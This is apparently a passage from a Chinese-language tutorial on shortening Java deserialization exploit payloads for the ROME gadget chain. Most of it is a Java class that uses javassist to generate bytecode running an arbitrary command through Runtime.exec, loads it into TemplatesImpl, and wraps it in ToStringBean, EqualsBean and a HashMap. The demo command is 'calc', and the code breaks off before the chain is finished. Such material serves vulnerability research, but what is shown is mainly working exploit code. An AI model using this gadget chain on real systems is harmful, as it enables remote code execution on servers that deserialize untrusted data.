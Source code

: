 ```bash
    }
    public static void main(String[] args) throws NotFoundException, CannotCompileException, IOException {
        WriteShell();
    }
}
```

然后我们就可以进行我们 payload 缩短了，首先注意几个赋值的地方：

*   TemplatesImpl.\_name 的长度可以为 1
*   TemplatesImpl.\_tfactory 可以不用赋值
*   HashMap 的 value 长度可以为 1

```bash
package EXPROME;

import EXPShell.GetShellCode;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ToStringBean;
import javassist.*;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.HashMap;

public class RomeEqualsShorter {
    public static void setValue(Object obj,String name,Object value)throws Exception {
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static byte[] genPayload(String cmd) throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("Runtime.getRuntime().exec(\""+cmd+"\");");
        clazz.addConstructor(constructor);
        return clazz.toBytecode();
    }

    public static void main(String[] args) throws Exception{
        TemplatesImpl templatesimpl = new TemplatesImpl();
//        byte[] bytecodes = Files.readAllBytes(Paths.get("D:\\Tomcat\\CC\\src\\main\\java\\EXPShell\\A.class"));
//        setValue(templatesimpl, "_tfactory", new TransformerFactoryImpl());
        setValue(templatesimpl,"_name","a");
        setValue(templatesimpl,"_bytecodes",new byte[][] {genPayload("calc")});


        ToStringBean toStringBean = new ToStringBean(Templates.class,templatesimpl);

        EqualsBean equalsBean = new EqualsBean(ToStringBean.class,toStringBean);

        HashMap<Object,Object> hashMap = new HashMap<>();
```